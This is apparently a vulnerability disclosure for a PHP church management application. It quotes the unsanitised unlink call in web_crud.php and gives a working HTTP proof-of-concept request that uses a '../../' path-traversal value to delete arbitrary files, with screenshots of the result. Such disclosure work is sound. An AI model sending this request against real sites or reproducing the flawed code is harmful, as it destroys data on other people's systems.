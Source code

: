 ### Vulnerability file address

In line 370 of `church/admin/app/web_crud.php`, `@unlink("../../assets/images/" . $_POST['oldaboutphoto']);`,` $_POST['oldaboutphoto']` parameters have not been restricted, which causes any file to be deleted

```php
if (isset($_POST['update6'])) {
        // Function to generate unique file name
        function generateUniqueFileName($filename)
        {
            $ext = pathinfo($filename, PATHINFO_EXTENSION);
            $basename = pathinfo($filename, PATHINFO_FILENAME);
            $uniqueName = $basename . '_' . uniqid() . '.' . $ext;
            return $uniqueName;
        }

        if ($_FILES['aboutphoto']['tmp_name'] != '') {
            $filepath = "../../assets/images/" . generateUniqueFileName($_FILES["aboutphoto"]["name"]);

            if (move_uploaded_file($_FILES["aboutphoto"]["tmp_name"], $filepath)) {
                $img1 = basename($filepath);
                @unlink("../../assets/images/" . $_POST['oldaboutphoto']);
            }
        } 
```

### POC

```http
POST /church/admin/app/web_crud.php HTTP/1.1
Host: www.church.net
Connection: close
Cookie: PHPSESSID=hl5noegsdjn1ru7skoi8tmqco3
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Length: 377

------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="update6"

1
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="oldaboutphoto"

../../12.txt
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="aboutphoto";filename="aaa.php"

this is test
------WebKitFormBoundaryTZGvWJmfBtMK9O8p--
```

### Attack results pictures

First, we create a `12.txt` file in the `church/` directory

![image-20250505160119530](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051601569.png)



Then we execute the above poc to attack

![image-20250505160221263](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051602288.png)

Files are deleted after the attack is successful

![image-20250505160211499](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051602527.png)
